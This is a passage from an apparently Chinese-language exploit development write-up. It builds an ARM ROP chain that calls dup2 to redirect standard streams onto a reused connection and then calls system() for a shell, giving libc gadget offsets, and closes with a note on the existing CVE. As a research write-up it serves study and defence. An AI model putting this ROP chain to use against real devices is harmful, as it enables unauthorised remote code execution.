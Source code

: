 接下来是调用dup2  
的环节。为了实现标准输入、标准输出和标准错误的重定向，需要分别调用三次该函数。在这三次调用中，R0 寄存器应始终设置为通过fileno  
获取的文件描述符，而 R1 寄存器的值需要依次设置为 0（STDIN）、1（STDOUT）和 2（STDERR）。由于 R1 寄存器当前已初始化为 0，第一次调用可以直接完成无需额外设置。  
```
p += p32(libc_base + 0xce5c + 0x4) # dup2, r1 = 0
# dup2 epilogue: ldmia sp!,{r7,pc}
p += b"XXXX" # r7 padding

```  
  
在第二次调用时，我找到了一个 gadget，该 gadget 会在跳转到 R5 寄存器中存储的地址（此时 R5 中已存有dup2  
的地址）之前，将 1 移入 R1 寄存器。  
```
p += p32(libc_base + 0x1cdcc) # mov r1, #1; mov r2, r6; blx r5
# dup2 epilogue: ldmia sp!,{r7,pc}
p += b"XXXX" # r7

```  
  
遗憾的是，我始终未能找到适用于第三次调用的可行 gadget。因此，这个问题将作为练习留给读者自行解决 :)  
  
最后只需复用第一个简单漏洞利用中的 ROP 链来生成 shell。至此所有准备工作均已完成。  
```
p += p32(libc_base + 0x175cc) # pop {r3, pc};
p += p32(libc_base + 0x535e8) # system
p += p32(libc_base + 0x368dc) # mov r0, sp; blx r3

```  
  
终于到了测试成果的时刻。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCMdNqtzMibt5ibQibbEYuUZb85fwS0SluqAHpCLuT6FlAaIibvQyBCbJksr5myIeIapre7DWYUtNYYjYA/640?wx_fmt=png&from=appmsg "")  
  
通过连接复用实现 shell 的最终漏洞利用  
  
成功！这个方案比第一次尝试优雅得多。既不需要启动 telnetd 服务，也无需建立反向 shell！  
  
最终漏洞利用的源代码可以在  
这里  
找到。  
## 总结  
  
正如前文所暗示的，我在完成漏洞利用开发后才发现，本文讨论的这个漏洞早已被识别并追踪为 CVE-2022-4546016  
。而且已有公开的利用方案17  
通过栈上的 shellcode 实现 RCE。显然，我最初对产品的研究不够彻底。尽管如此，在探索不同利用方式的过程中，我获得了许多乐趣并学到了宝贵经验。鉴于已有公开的利用方案，我们决定公开完整的漏洞利用代码——尽管在其他情况下我们通常会避免这样做。  
  
